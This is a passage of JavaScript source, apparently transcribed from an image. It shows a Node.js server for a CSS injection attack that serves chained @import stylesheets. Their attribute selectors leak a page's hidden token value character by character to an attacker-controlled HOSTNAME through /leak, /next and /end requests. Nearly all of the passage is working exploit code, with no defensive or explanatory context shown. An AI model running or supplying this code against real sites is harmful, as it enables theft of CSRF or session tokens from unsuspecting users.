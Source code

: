 ```javascript
            if (ready == 2) {
                genResponse(pending.shift());
                ready = 0;
            } else {
                ready++;
                log('\tleak: waiting others...');
            }
            break;
        case "/next":
            if (ready == 2) {
                genResponse(response);
                ready = 0;
            } else {
                pending.push(response);
                ready++;
                log('\tquery: waiting others...');
            }
            break;
        case "/end":
            stop = true;
            console.log('[+] END: %s', req.query.token);
        default:
            response.end();
    }
}

const genResponse = (response) => {
    console.log('...pre-payoad: ' + prefix);
    console.log('...post-payoad: ' + postfix);
    let css = '@import url('+ HOSTNAME + '/next?' + Math.random() + ');' +
        [0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'].map(e => ('input[value$="' + e + postfix + '"]{--e'+n+':url(' + HOSTNAME + '/leak?post=' + e + postfix + ')}')).join('') +
        'div '.repeat(n) + 'input{background:var(--e'+n+')}' +
        [0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'].map(e => ('input[value^="' + prefix + e + '"]{--s'+n+':url(' + HOSTNAME + '/leak?pre=' + prefix + e +')}')).join('') +
        'div '.repeat(n) + 'input{border-image:var(--s'+n+')}' +
        'input[value='+ prefix + postfix + ']{list-style:url(' + HOSTNAME + '/end?token=' + prefix + postfix + '&)};';
    response.writeHead(200, { 'Content-Type': 'text/css'});
    response.write(css);
    response.end();
    n++;
}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
    if (err) {
        return console.log('[-] Error: something bad happened', err);
    }
    console.log('[+] Server is listening on %d', port);
})

function log() {
    if (DEBUG) console.log.apply(console, arguments);
}
```
